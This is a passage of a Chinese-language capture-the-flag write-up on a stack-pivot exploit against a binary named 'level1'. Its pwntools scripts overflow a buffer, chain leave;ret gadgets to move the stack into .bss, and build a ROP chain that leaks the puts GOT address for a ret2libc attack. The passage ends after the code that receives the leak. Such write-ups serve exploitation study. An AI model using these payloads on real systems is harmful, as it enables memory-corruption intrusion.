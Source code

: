 第一次栈劫持， rbp=buf+0x80，经过程序的leave后 rbp=[rbp]=buf+0x80

这是我们的ret是重新读一遍，由于lea rax, [rbp-0x80]，于是rax正好是buf

会写到我们的buf里了

```python
elf = ELF("----------------/level1")
libc = ELF("-----------------/libc.so.6")
write_plt = elf.plt['puts']
print(hex(write_plt))
write_got = elf.got['puts']
print(hex(write_got))
read_plt = elf.plt['read']
print(hex(read_plt))
buf = elf.bss() + 0x500
print(hex(buf))

payload = b'A'* 0x80 + p64(buf+0x80) + p64(0x04011EF)
p.sendline(payload)
```

这次写到我们buf里的读取，也就是第二次读取，我们要让它输出一下got表里的地址，来像ret2libc一样计算libc里的地址

这次read后的leave时，rbp位置放了数据buf地址，ret是再次的leave, ret

leave后 rbp = [rbp] = buf ; rsp = 不重要

再次leave后 rbp=[buf] ; rsp = buf+8 

也就是其实是通过两次leave把 rsp送到buf+8上，这样就能用缓冲区继续了

```python
payload = ((b'AAAAAAA\x00' + p64(0x04011C5) + p64(write_got) + p64(write_plt) +
            p64(0x04011C8) + p64(buf+0x300+0x80) + p64(0x04011EF)).ljust(0x80,b'\x00')
           + p64(buf) + p64(0x40120F))
p.sendline(payload)
```

buf+8位置就是现在的栈顶，也就是0x04011C5是pop rdi的位置就可以输出write_got了

这个时候可以打印输出获取一下了

输出地址后，这次的rop我们还需要再次让他来一次read，这次把栈送到一个新地址上buf+0x300

通过pop rbp指定下一轮的rbp是buf+0x300+0x80 ，然后调用read

先输出吧

```python
line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[1]", line, ":", hex_string)

data = p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')
print("[!!!]data= ", data, ":", format(u64(data), 'x'))

line = p.recvline()  # 接收'\n'
hex_string = line.hex()
print("[3]", line, ":", hex_string)
```
